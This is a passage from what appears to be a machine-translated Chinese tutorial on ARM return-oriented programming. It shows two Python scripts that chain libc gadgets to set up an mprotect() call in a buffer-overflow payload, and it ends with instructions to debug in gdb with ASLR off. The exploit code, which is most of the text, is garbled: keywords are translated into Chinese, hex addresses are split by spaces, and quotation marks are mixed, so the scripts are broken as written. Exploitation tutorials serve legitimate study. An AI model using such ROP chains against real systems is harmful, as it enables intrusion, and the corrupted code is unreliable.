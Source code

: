 *这里有一个简单的解决办法，我们只需要重新排列这些小工具，我会告诉你我的意思。让我们再次修改漏洞*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(“AAAA”)# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += struct.pack(下一个)*

*慢慢来，分析我做的改变。*

*我只是将利用 r0 寄存器将值 7 复制到 r2 的小工具作为第一条指令，并将 pop 指令重新安排到最后。*

*让我们检查一下这个漏洞是否有效。在此之前，在下一条指令中放置一个空值，这是我们接下来要放置 mprotect()地址的地方，同时将堆栈地址更改为一个目前不包含任何空字节的地址(0x bedfd 000-> 0x bedfd 080)。*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 080)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += ("BBBB") #mprotect()地址*
> 
> *打印(出口)*

*将二进制文件加载到 gdb 中，使用“b main”在 main 中放置一个断点，同时确保 alsr 关闭。*
